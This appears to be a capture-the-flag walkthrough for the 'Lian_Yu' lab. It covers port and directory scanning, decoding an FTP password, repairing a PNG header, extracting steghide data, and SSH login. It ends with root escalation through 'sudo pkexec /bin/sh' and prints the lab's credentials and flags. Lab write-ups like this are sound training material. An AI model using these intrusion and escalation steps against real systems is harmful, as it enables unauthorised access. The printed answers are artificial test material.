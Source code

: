 # Lian_Yu

## What is the Web Directory you found?

- Scan port
    
    ```bash
    sudo nmap -sV -A -n -O 10.10.9.36
    ```
    
    > ftp
    ssh
    http
    > 
- Scan directory
    
    ```bash
    gobuster -u 10.10.9.36 -w wordlist/dirbuster/directory-2-medium.txt
    ```
    
    > island
    > 
    - <h2 style="color:white"> vigilante</h2>
- Scan directory
    
    ```bash
    gobuster -u 10.10.9.36/island -w wordlist/dirbuster/directory-2-medium.txt
    ```
    
    > 2100
    > 
    - <!-- you can avail your .ticket here but how? -→

---

## What is the file name you found?

- Scan directory
    
    ```bash
    gobuster -u 10.10.9.36/island/2100 -w wordlist/dirbuster/directory-2-medium.txt -x ticket
    ```
    
    > /green_arrow.ticket (Status: 200)
    > 
    - `RTy8yhBQdscX`

---

## What is the FTP Password?

- `RTy8yhBQdscX`

<aside>
💡 HIT
     Looks like base? [https://gchq.github.io/CyberChef/](https://gchq.github.io/CyberChef/)

</aside>

- From base58
    - `!#th3h00d`

---

## What is the file name with SSH password?

- Login fpt
    
    ```bash
    fpt 10.10.9.36
    vigilante
    !#th3h00d
    ```
    
- Get files
    
    ```bash
    ls -la
    get .other_user
    get Leave_me_alone.png
    get Queen's_Gambit.png
    get aa.jpg
    exit
    ```
    
- Scan images
    - exiftool
        - See the properties
            
            ```bash
            sudo apt install exiftool
            ```
            
        - Sintaxe
            
            ```bash
            exiftool <file>
            ```
            
    
    ---
    
    - Scan
        
        ```bash
        exiftool aa.jpg
        exiftool Leave_me_alone.png
        ```
        
        > Error : File format error
        > 
    
    ---
    
    - Signature png
        - [https://en.wikipedia.org/wiki/List_of_file_signatures](https://en.wikipedia.org/wiki/List_of_file_signatures)
        
        ```bash
        Ctrl + f + png
        ```
        
        - `89 50 4E 47 0D 0A 1A 0A‰PNG␍␊␚␊`0
        png
        Image encoded in the Portable Network Graphics format[21]
    
    ---
    
    - hexedit
        - See hex
            
            ```bash
            sudo apt install hexedit
            ```
            
        - Sintaxe
            
            ```bash
            hexedit <file>
            ```
            
        - hexedit Leave_me_alone.png
        - Paste signature png
            
            ![Untitled](Lian_Yu%2043e457942bfd4ed8a7d9a354cd8815f4/Untitled.png)
            
        - Save
    
    ---
    
    ![Leave_me_alone.png](Leave_me_alone.png)
    
    ---
    
    - Extract files
        - steghide
            - Extract files from inside another file
                
                ```bash
                sudo apt install steghide
                ```
                
            - Sintaxe
                
                ```bash
                To embed emb.txt in cvr.jpg: steghide embed -cf cvr.jpg -ef emb.txt
                To extract embedded data from stg.jpg: steghide extract -sf stg.jpg
                ```
                
                ```bash
                steghide extract -sf file.jpg
                ```
                
        
        ---
        
        - Extract files
            
            ```bash
            steghide extract -sf aa.jpg
            password
            unzip ss.zip
            cat shado
            ```
            
        
- `shado`

---

## user.txt

- cat .other_user
    - Slade Wilson was 16 years old when he enlisted in the […]
- slade M3tahuman
    
    ```bash
    ssh slade@10.10.9.36
    M3tahuman
    cat user.txt
    ```
    
- `THM{P30P7E_K33P_53CRET5__C0MPUT3R5_D0N'T}`

---

## root.txt

```bash
sudo -l -l
```

> /usr/bin/pkexec
> 
- [https://gtfobins.github.io/gtfobins/pkexec/](https://gtfobins.github.io/gtfobins/pkexec/)
    
    ```bash
    sudo pkexec /bin/sh
    sudo su
    cat root.txt
    ```
    
- `THM{MY_W0RD_I5_MY_B0ND_IF_I_ACC3PT_YOUR_CONTRACT_THEN_IT_WILL_BE_COMPL3TED_OR_I'LL_BE_D34D}`
